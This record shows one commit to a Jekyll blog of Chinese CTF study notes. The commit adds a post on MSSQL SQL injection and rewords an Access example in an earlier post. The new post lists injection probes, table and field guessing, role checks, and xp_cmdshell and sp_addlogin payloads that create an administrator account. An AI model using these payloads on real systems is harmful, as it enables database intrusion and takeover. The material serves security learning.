

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-28-SQLInjection2.md, in a window 1280 px wide and 900 px high, scrolled down 3363 px. Shown: the whole window, without its empty margins (233-1237 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

Commit message:
create 2020-11-29-SQLInjection3.md

````diff
--- a/_posts/2020-11-28-SQLInjection2.md
+++ b/_posts/2020-11-28-SQLInjection2.md
@@ -161,9 +161,9 @@ id=1 and exsits (select admin from admin)
 
 - 绝对路径：D:/wwwroot/...\*.mdb、\*.asa、\*.asp
 
-- 举例：
+- 举例：a是目标站点，b是存在注入的站点，a、b是同服务器的站点。
 
-a是目标站点，b是存在注入的站点，a、b是同服务器的站点。admin为表名，username、password为admin表的段：
+攻击链接示例如下，其中admin为表名，username、password为admin表的段。
 
 ```
 http://xxx.com/news/type.asp?id=1 and 1=2 union select 1,2,username,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin
--- /dev/null
+++ b/_posts/2020-11-29-SQLInjection3.md
@@ -0,0 +1,119 @@
+---
+layout:     post
+title:      Web笔记（二）SQL注入之Mssql
+subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Mssql的SQL注入。
+date:       2020-11-29
+author:     HouKC
+header-img: img/post-bg-rwd.jpg
+catalog:    true
+tags:
+    - CTF
+    - web
+    - 网络安全
+    - 学习笔记
+    - SQL注入
+    - Mssql
+---
+
+
+
+## 0x00 Mssql简介
+
+Mssql，又称SQL Server，全称为Microsoft SQL Server，是美国Microsoft公司推出的一种关系型数据库系统，是一个可扩展的、高性能的、为分布式客户机/服务器计算所设计的数据库管理系统，实现了与WindowsNT的有机结合，提供了基于事务的企业级信息管理系统方案。
+
+主要特点如下：
+
+- 高性能设计，可充分利用WindowsNT的优势。
+- 系统管理先进，支持Windows图形化管理工具，支持本地和远程的系统管理和配置。
+- 强壮的事务处理功能，采用各种方法保证数据的完整性。
+- 支持对称多处理器结构、存储过程、ODBC，并具有自主的SQL语言。Mssql以其内置的数据复制功能、强大的管理工具、与Internet的紧密集成和开放的系统结构为广大的用户、开发人员和系统集成商提供了一个出众的数据库平台。
+
+
+
+## 0x01 Mssql常用场景
+
+- 学校
+- 政府
+- OA
+- 棋牌游戏
+- 人事考试网站
+
+asp/aspx+sqlserver
+
+
+
+## 0x02 Mssql知识
+
+#### 1.Mssql服务、端口、后缀
+
+- 重启服务，使其生效。
+
+- 命令：services.msc
+
+  TCP  0.0.0.0:1433  0.0.0.0:0  LISTENING
+
+- 1433端口是开启的，当我们关闭服务后，端口也将关闭。
+
+- 后缀是xxx.mdf
+
+- 日志文件后缀是xxx_log.ldf
+
+- 数据库服务器系统级权限账号sa
+
+#### 2. 数据库权限
+
+- sa权限：数据库操作，文件管理，命令执行，注册表读取等system
+
+- db权限：文件管理，数据库操作等users-administrators
+
+- public权限：数据库操作guest-users
+
+
+
+## 0x03 调用数据库代码
+
+```asp
+	<%
+set conn = server.createobject("adodb.connection")
+conn.open "provider=sqloledb;source=local;uid=sa;pwd=*****;database=database-name"
+%>
+```
+其中，provider后面的不用管，照写；source后面的是IP地址，这里是本地；sa是内置的用户，密码是在安装时设置的；database后面的是要连接的数据库名称，如：mydatabase（不需要扩展名）
+
+一般这段代码会在以下文件中存在：
+
+- conn.asp
+
+- dbconfig.asp
+
+如果是aspx则可能在：
+
+- web.config
+
+
+
+## 0x04 注入语句
+
+#### 1. 判断是否有注入
+
+```
+and 1=1
+and 1=2
+/
+-0
+```
+
+#### 2. 初步判断是否是mssql
+
+```
+and user>0		# 如果正常就是Mssql
+```
+
+#### 3. 判断数据库系统
+
+```
+and (select count(*) from sysobjects)>0      mssql
+and (select count(*) from msysobjects)>0    access
+```
+
+如果上述语句正常，则可能是sa权限4) 注入参数是字符'and [查询条件] and '' = '5) 搜索时没过滤参数的'and [查询条件] and '%25'='6) 猜数表名and (select count(*) from [表名])>07) 猜字段and (select count([字段名]) from [表名])>08) 猜字段中记录长度and (select top 1 len([字段名]) from [表名])>09) 猜字段的ascii值and (select top 1 asc(mid([字段名], 1, 1)) from [表名])>0             accessand (select top 1 unicode(substring([字段名], 1, 1)) from [表名])>0     mssql10)测试权限结构（mssql）and 1=(select IS_SRVROLEMEMBER('sysadmin'));--and 1=(select IS_SRVROLEMEMBER('serveradmin'));--and 1=(select IS_SRVROLEMEMBER('setupadmin'));--and 1=(select IS_SRVROLEMEMBER('securityadmin'));--and 1=(select IS_SRVROLEMEMBER('diskadmin'));--and 1=(select IS_SRVROLEMEMBER('bulkadmin'));--and 1=(select IS_SRVROLEMEMBER('db_owner'));--11) 添加mssql和系统的账户exec master.dbo.sp_addlogin username;--exec master.dbo.sp_password null,username,password;--exec master.dbo.sp_addsrvrolemember sysadmin username;--exec master.dbo.xp_cmdshell 'net user username password /workstations:* /times:all /passwordchg:yes /passwordreq:yes /active:yes /add';--exec master.dbo.xp_cmdshell 'net user username password /add';--exec master.dbo.xp_cmdshell 'net localgroup administrators username /add';--
````
